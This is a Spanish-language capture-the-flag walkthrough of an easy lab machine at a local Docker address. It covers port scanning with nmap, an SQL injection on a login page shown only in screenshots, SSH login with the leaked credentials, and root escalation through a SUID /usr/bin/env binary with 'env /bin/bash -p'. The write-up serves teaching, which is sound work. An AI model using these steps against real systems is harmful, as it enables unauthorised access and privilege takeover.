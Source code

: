 # Maquina injention

- Nivel: Muy fácil

## Escaneo de puertos

<p>Tras encender la máquina lo primero que haremos será un ping para comprobar que todo esta correcto</p>

```shell

ping -c1 172.17.0.2

```

```shell

PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.065 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.065/0.065/0.065/0.000 ms

```

<p>Como podemos observar la máquina esta encendida, por el TTL se puede intuir que es una máquina Linux</p>

<p>Con esto comprobado procedemos a realizar el primer escaneo con nmap</p>

```shell

sudo nmap -p- --open -sS -vvv -Pn 172.17.0.2

```

```

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 00:03 CET
Initiating ARP Ping Scan at 00:03
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:03, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:03
Completed Parallel DNS resolution of 1 host. at 00:03, 6.53s elapsed
DNS resolution of 1 IPs took 6.53s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 3, CN: 0]
Initiating SYN Stealth Scan at 00:03
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:03, 1.42s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000090s latency).
Scanned at 2025-02-06 00:03:29 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 8.20 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
           
```

<p>El escaneo nos reporta que los puertos 22 y 80 estan abiertos lo cual puede ser un indicativo de que hay una página web corriendo en la máquina</p>
<p>Realizamos un segundo escaneo de esos puertos para obtener información mas detallada</p>

```shell

sudo nmap -p 22,80 -sV -vvv -Pn 172.17.0.2

```

```shell

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 00:06 CET
NSE: Loaded 46 scripts for scanning.
Initiating ARP Ping Scan at 00:06
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:06, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:06
Completed Parallel DNS resolution of 1 host. at 00:06, 6.52s elapsed
DNS resolution of 1 IPs took 6.52s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 3, CN: 0]
Initiating SYN Stealth Scan at 00:06
Scanning 172.17.0.2 [2 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:06, 0.02s elapsed (2 total ports)
Initiating Service scan at 00:06
Scanning 2 services on 172.17.0.2
Completed Service scan at 00:06, 6.02s elapsed (2 services on 1 host)
NSE: Script scanning 172.17.0.2.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 00:06
Completed NSE at 00:06, 0.01s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 00:06
Completed NSE at 00:06, 0.00s elapsed
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000042s latency).
Scanned at 2025-02-06 00:06:29 CET for 6s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.12 seconds
           Raw packets sent: 3 (116B) | Rcvd: 3 (116B)
           
```

<p>Este escaneo nos reporta que estamos ante una máquina Ubuntu la cual corre un Apache 2.4.52</p>




## Pagina Web

<p>Introducimos la IP de la máquina en el navegador y nos lleva a la siguiente página</p>

![captura_injection_1](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-17-24.png)

<p>Podemos observar que es una página de inicio de sesión</p>
<p>Probamos una inyección SQL</p>

![captura_injection_2](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-24-24.png)

<p>La página es vulnerable a SQL Injection, nos muestra el siguiente resultado </p>

![captura_injection_3](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-26-15.png)

<p>Nos da un nombre de usuario y una contraseña</p>

## Conexión por ssh
<p>Aprovechando este nombre y contraseña tratamos de conectarnos por ssh</p>

```shell

ssh dylan@172.17.0.2

```

```shell

dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.8.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Feb  5 23:25:00 2025 from 172.17.0.1
dylan@7af8994eca56:~$ 

```
<p>Ha funcionado, tenemos una conexión ssh con la máquina</p>

## Escalada de privilegios

Comprobamos que somos el usuario dylan

```shell

whoami

```

```shell

dylan

```

<p>Buscamos los programas sobre los que tenemos privilegios</p>

```shell

sudo -l

```

```shell

-bash: sudo: command not found

```

<p>Probamos otra forma de busqueda</p>

<p>Buscamos todos los archivos con permiso SUID y cuyo usuario sea root de forma que al ejecutarse lo hagan como este</p>

```shell

find / -perm -4000 -user root 2>/dev/null

```

```shell

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/su
/usr/bin/env
/usr/bin/chfn

```

<p>De estos archivos podemos destacar /usr/bin/env el cual se utiliza para ejecutar un programa con variables de entorno personalizadas</p>
<p>Probamos a ejecutar /bin/bash con /bin/env de forma que al cumplir con las caracteristicas mencionadas anteriormente debería devolver una bash con permisos de root</p>

```shell

/usr/bin/env /bin/bash -p

```

```shell

bash-5.1# whoami
root

```
